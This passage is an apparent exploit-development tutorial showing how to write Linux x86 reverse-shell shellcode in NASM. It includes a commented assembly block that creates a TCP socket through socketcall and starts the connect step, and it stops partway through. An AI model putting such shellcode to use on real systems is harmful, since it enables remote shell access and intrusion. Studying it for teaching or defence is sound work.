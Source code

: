 ![shell](images/2022-06-04_13-43.png)

As we are now aware of the functions we need to invoke, we can do the same thing in Assembly using syscalls and registers.

First, we will create a socket using Assembly. As we are unable to specify the human-readable values (such as AF_INET), we must use their numeric equivalents.

The numerical values for each parameter are obtained from the syscall documentation, such as [here](http://man7.org/linux/man-pages/man2/socketcall.2.html) or [here](http://man7.org/linux/man-pages/man2/connect.2.html).

```nasm
push 0x66
pop eax ; syscall for sys_socketcall
xor ebx,ebx
Inc ebx ;we place 1 in ebx for sys_socket argument
xor edx, edx ; edx is zeroed out
push edx ; protocol ipproto_ip
push ebx; socket of type sock_stream
push 0x2; socket family af_inet
mov ecx, esp ; we move the pointer to the freshly pushed arguments into ecx
int 0x80; syscall – socket is created and the result is stored in eax
xchg edx, eax ; we save the result file descriptor in edx as eax will be needed for
another call
```

The following step is to use the newly created socket to establish a TCP connection with the target. To achieve this, we must re-use the socket call. In addition, we must push the entire structure defined in C onto the stack.
Once everything has been configured, we must set `ebx` to `0x3` for the connect syscall.
Let's construct the Assembly in stages.

The newly created socket will be used to establish a TCP connection with the target.

```nasm
push 0x66
pop eax; we use the same socket call
```
